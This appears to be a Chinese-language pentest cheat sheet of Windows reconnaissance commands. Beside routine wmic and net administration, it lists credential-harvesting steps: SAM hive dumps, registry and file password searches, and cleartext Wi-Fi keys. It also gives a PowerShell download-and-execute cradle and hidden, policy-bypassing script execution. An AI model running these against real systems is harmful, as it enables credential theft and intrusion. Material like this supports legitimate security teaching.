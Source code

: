 信息收集 - Windows
========================================

基本命令
----------------------------------------
- 查询所有计算机名称 ``dsquery computer``
- 查看配置 ``systeminfo``
- 查看版本 ``ver``
- 进程信息 ``tasklist /svc``
- 查看所有环境变量 ``set``
- 查看计划任务 ``schtasks /QUERY /fo LIST /v``
- 查看安装驱动 ``DRIVERQUERY``
- 查看操作系统架构 ``wmic os get osarchitecture``
- 查看逻辑盘 ``wmic logicaldisk get caption``
- 查看安装的软件 ``wmic product get name,version``
- 查看Powershell版本：``REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion``

域信息
----------------------------------------
- 获取当前组的计算机名 ``net view``
- 查看所有域 ``net view /domain``
- 查看域中的用户名 ``dsquery user``
- 查询域组名称 ``net group /domain``
- 查询域管理员 ``net group "Domain Admins" /domain``
- 查看域控制器 ``net group "Domain controllers"``

用户信息
----------------------------------------
- 查看用户 ``net user`` / ``whoami`` / ``whoami /all`` / ``echo %USERNAME% || whoami``
- 查看用户信息: ``net user <administrator>``
- 用户特权信息 ``whoami /priv``
- 查看当前权限 ``net localgroup administrators``
- 查看在线用户 ``qwinsta`` / ``query user`` / ``quser``
- 查看当前计算机名，全名，用户名，系统版本，工作 站域，登陆域 ``net config Workstation``

网络信息
----------------------------------------
- 域控信息
	+ ``nltest /dclist:xx``
	+ ``Get-NetDomain``
	+ ``Get-NetDomainController``
- 网卡信息 ``ipconfig``
- ARP表 ``arp -a``
- 路由表 ``route print``
- 监听的端口 ``netstat -ano``
- 查看netbios：``nbtscan 192.168.1.17``
- 防火墙状态及规则
	+ ``netsh firewall show config``
	+ ``netsh firewall show state``
- hosts文件

密码信息
----------------------------------------
+ 当前系统凭据
	- ``cmdkey /l``
+ REG导出SAM数据
	::
		
		reg save HKLM\SAM sam.hiv
		reg save HKLM\SYSTEM system.hiv
		reg save HKLM\SECURITY security.hiv
+ 系统文件查找
	- ``cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt``
	- ``findstr /si password *.xml *.ini *.txt *.config 2>nul >> results.txt``
	- ``findstr /spin "password" *.*``
+ 文件名查找
	- ``dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*``
	- ``where /R C:\ user.txt``
	- ``where /R C:\ *.ini``
+ 注册表搜索密码
	::
	
		REG QUERY HKLM /F "password" /t REG_SZ /S /K
		REG QUERY HKCU /F "password" /t REG_SZ /S /K

		reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
		reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
		reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
		reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
		reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
		reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

		reg query HKLM /f password /t REG_SZ /s
		reg query HKCU /f password /t REG_SZ /s
+ unattend.xml
	::
	
		C:\unattend.xml
		C:\Windows\Panther\Unattend.xml
		C:\Windows\Panther\Unattend\Unattend.xml
		C:\Windows\system32\sysprep.inf
		C:\Windows\system32\sysprep\sysprep.xml
+ wifi密码
	- Find AP SSID: ``netsh wlan show profile``
	- Get Cleartext Pass: ``netsh wlan show profile <SSID> key=clear``
	- ``cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on``

其他
----------------------------------------
+ wmic
	- 提供了从命令行接口和批命令脚本执行系统管理的支持
	- 查看补丁安装情况: ``wmic qfe get Caption,Description,HotFixID,InstalledOn``
	- 获取帮助
		+ ``wmic /?``
		+ 查看nic命令帮助：``wmic nic /?``
		+ 信息筛选：``wmic nic where NetConnectionStatus=2 get Name,MACAddress,NetConnectionStatus``
	- 查看杀软：``WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntivirusProduct Get displayName``
	- 查看启动项：``wmic startup get caption,command``
	- 进程管理
		+ 列出进程的核心信息：``wmic process list brief``
		+ 新建进程：``wmic process call create notepad``
		+ 结束进程
			- ``wmic process \[handle/PID\] delete``
			- ``wmic process \[handle/PID\] call terminate``
			- ``wmic process where "name='svchost.exe' and ExecutablePath<>'C:\\\\WINDOWS\\\\system32\\\\svchost.exe'" call Terminate``
			- ``wmic process where "name='svchost.exe' and ExecutablePath='C:\\\\WINDOWS\\\\svchost.exe'" call Terminate``
	- BIOS管理
		+ 查看bios版本型号：``wmic bios get name,SMBIOSBIOSVersion,manufacturer``
	- 计算机系统管理
		+ 查看硬件，操作系统信息：``wmic computersystem get Name,workgroup,NumberOfProcessors,manufacturer,Model``
		+ 查看系统启动选项boot.ini的内容：``wmic computersystem get SystemStartupOptions``
		+ 更改计算机名abc为123：``wmic computersystem where “name=‘abc’” call rename 123``
		+ 改工作组google为MyGroup：``wmic computersystem where “name=‘google’” call joindomainorworkgroup “”,"",“MyGroup”,1``
	- CPU 管理
		+ 查看cpu型号：``wmic cpu get name``
	- 文件管理
		+ 查找c盘下windows目录(不包括子目录)下的system.ini文件：``wmic datafile where "drive='c:' and path='\\windows\\' and FileName='system' and Extension='ini'" get Name``
		+ 删除e盘下文件大小大于10M的.cmd文件：``wmic datafile where "drive='e:' and Extension='cmd' and FileSize>'10000000'" call delete``
		+ 复制e盘下test目录(不包括子目录)下的cc.cmd文件到e:\,并改名为aa.bat：``wmic datafile where "drive='e:' and path='\\test\\' and FileName='cc' and Extension='cmd'" call copy "e:\aa.bat"``
		+ 改名c:\hello.txt为c:\test.txt：``wmic datafile "c:\\hello.txt" call rename c:\test.txt``
	- 监视器管理
		+ 获取屏幕像素：``wmic DESKTOPMONITOR where Status='ok' get ScreenHeight,ScreenWidth``
		+ 获取磁盘型号大小：``wmic DISKDRIVE get Caption,size,InterfaceType``
	- 系统环境设置管理
		+ 获取temp环境变量：``wmic ENVIRONMENT where "name='temp'" get UserName,VariableValue``
		+ 更改path环境变量值,新增e:\tools：``wmic ENVIRONMENT where "name='Path' and username='<SYSTEM>'" set VariableValue="%path%;e:\tools"``
		+ 新增系统环境变量home,值为%HOMEDRIVE%%HOMEPATH%：``wmic ENVIRONMENT create name="home",username="administrator",VariableValue="%HOMEDRIVE%%HOMEPATH%"``
		+ 删除home环境变量：``wmic ENVIRONMENT where "name='home'" delete``
	- 文件目录系统项目管理
		+ 查找c盘下名为windows的目录（不包含子目录）：``wmic FSDIR where "drive='c:' and path='\\windows\\'" list``
		+ 删除e:\test目录下除过目录abc的所有目录：``wmic FSDIR where "drive='e:' and path='\\test\\' and filename<>'abc'" call delete``
		+ 删除c:\good文件夹：``wmic fsdir "c:\\good" call delete``
		+ 重命名c:\good文件夹为abb：``wmic fsdir "c:\\good" rename "c:\\abb"``
	- 本地储存设备管理
		+ 获取硬盘系统格式、总大小、可用空间等：``wmic LOGICALDISK get name,Description,filesystem,size,freespace``
	- 网络界面控制器 (NIC) 管理
		+ 获取已连接网卡的名字、速率：``wmic NIC where NetEnabled=true get Name, Speed``
		+ 获取已IP地址网卡的index、caption：``wmic nicconfig where IPEnabled="true" get Index, Caption``
		+ 设置index =1的网卡，静态IP地址：``wmic nicconfig where Index=1 call EnableStatic ("1.2.3.4"),("255.255.255.0")``
		+ 设置index =1的网卡，采用DHCP方式获取IP地址：``wmic nicconfig where Index=1 call EnableDHCP``
	- 操作系统管理
		+ 设置系统时间：``wmic os where(primary=1) call setdatetime 20070731144642.555555+480``
		+ 更改当前页面文件(pagefile.sys)初始大小和最大值：``wmic PAGEFILESET set InitialSize="512",MaximumSize="512"``
		+ 页面文件设置到d:\下,执行下面两条命令：``wmic pagefileset create name='d:\pagefile.sys',initialsize=512,maximumsize=1024``,``wmic pagefileset where "name='c:\\pagefile.sys'" delete``
	- 安装包任务管理
		+ 卸载.msi安装包：``wmic PRODUCT where "name='Microsoft .NET Framework 1.1' and Version='1.1.4322'" call Uninstall``
		+ 修复.msi安装包：``wmic PRODUCT where "name='Microsoft .NET Framework 1.1' and Version='1.1.4322'" call Reinstall``
	- 服务程序管理
		+ 查看服务列表：``wmic service list brief``
		+ 运行spooler服务：``wmic SERVICE where name="Spooler" call startservice``
		+ 停止spooler服务：``wmic SERVICE where name="Spooler" call stopservice``
		+ 暂停spooler服务：``wmic SERVICE where name="Spooler" call PauseService``
		+ 更改spooler服务启动类型[auto|Disabled|Manual] 释[自动|禁用|手动]：``wmic SERVICE where name="Spooler" set StartMode="auto"``
		+ 删除服务：``wmic SERVICE where name="test123" call delete``
	- 共享资源管理
		+ 删除共享：``wmic SHARE where name="e$" call delete``
		+ 添加共享：``WMIC SHARE CALL Create "","test","3","TestShareName","","c:\test",0``
	- 声音设备管理
		+ ``wmic SOUNDDEV list``
	- 用户登录到计算机系统时自动运行命令的管理
		+ 查看msconfig中的启动选项：``wmic STARTUP list``
		+ 基本服务的系统驱动程序管理：``wmic SYSDRIVER list``
	- 用户帐户管理
		+ 更改用户administrator全名为admin：``wmic USERACCOUNT where name="Administrator" set FullName="admin"``
		+ 更改用户名admin为admin00：``wmic useraccount where "name='admin'" call Rename admin00``
+ PowerShell
	- 简介
		+ 一个PowerShell脚本其实就是一个简单的文本文件，其扩展名为".ps1"。PowerShell脚本文件中包含一系列命令，每个命令为独立一行。
		+ 执行策略：为防止恶意脚本，默认情况下策略为 **不能执行** 。
		+ 使用 ``get-executionPolicy`` 获取当前执行策略。
			::
			
				Restricted：脚本不能运行（默认设置）
				RemoteSigned：在本地创建脚本可以运行，但从网上下载的不能（拥有数字证书签名除外）
				AllSigned：仅当脚本受信任的发布者签名时才能运行
				Unrestricted：允许所有脚本运行
				
				设置策略：set-ExecutionPolicy <policy name>
		+ 管道：``get-process p* | stop-process``
	- 绕过执行策略
		+ 管道：``Type helloword.ps1 |powershell.exe -NoP -``
		+ 网络下载：``powershell -nop -c "iex(New-Object Net.WebClient).DowndloadString('url')"``
		+ bypass方式：``powershell.exe -ExecutionPolicy bypass -File helloworld.ps1``
		+ 加密方式：即encodedCommand方式。
		+ 隐藏执行：``PowerShell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -File xxx.ps1``
	- 查看版本：``get-host``,``$PSVersionTable.PSVERSION``
	- 查看支持命令：``get-command``
		+ 查看命令帮助：``Get-Help Enter-PSSession``
	- 获取所有进程：``get-process``
	- -command 命令参数
		+ 此方法不需要一个交互式窗口，它适用于简单脚本执行，对于复杂脚本会发生解析错误。
		+ ``PowerShell -command "Write-Host 'you are good.'"``
	- -encodedCommand命令参数
		+ 此方法的输入内容是Unicode/base64 encod字符串，使用以下方式编码
			::
			
				$command = 'dir "c:\program files" '
				$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
				$encodedCommand = [Convert]::ToBase64String($bytes)
				$encodedCommand即为最终的字符串。
		+ ``PowerShell -encodedCommand ZABpAHIAIAAiAGMAOgBcAHAAcgBvAGcAcgBhAG0AIABmAGkAbABlAHMAIgAgAA==``
	- 运行远程命令
		+ WS-Management协议:为计算机设备远程交换管理数据提供了一个公开的标准，在Windows上，微软通过WinRM实现。
		+ 检查WinRM服务：``Get-Service WinRM``
		+ 启动并配置系统接收远程命令：``Enable-PSRemoting –Force``
			::
			
				如果你的计算机已经加入了域，那么上面的配置就可以了。
				对于没有加入域的计算机还需要进行信任设置，然后重启 WinRM 服务：
				Set-Item wsman:\localhost\client\trustedhosts *
				Restart-Service WinRM
		+ 测试远程命令：``Test-WsMan xxx.xxx.xxx.xxx``
		+ 创建远程连接session：``Enter-PSSession -ComputerName my-svr -Credential ****(用户名)***``
		+ 远程执行单个命令：``Invoke-Command -ComputerName cd-lsr-svr -ScriptBlock { Get-Service WinRM } -credential ****(用户名)***``
+ 日志与事件信息
	- ``wevtutil``
+ 注册表信息
	- ``reg``
